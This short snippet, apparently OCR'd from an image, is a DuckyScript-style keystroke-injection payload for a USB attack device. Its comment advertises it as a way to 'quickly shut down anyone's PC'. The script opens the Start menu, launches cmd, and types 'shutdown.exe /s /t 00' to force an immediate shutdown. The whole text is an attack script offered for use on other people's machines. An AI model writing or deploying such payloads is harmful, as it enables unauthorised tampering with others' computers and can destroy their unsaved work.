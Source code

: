 * REM: This is just a simple script that will allow you to quicky shut down anyone's PC with just a few lines of code.
* CONTROL ESCAPE
* DELAY 400
* STRING cmd
* DELAY 200
* STRING shutdown.exe /s /t 00
* ENTER
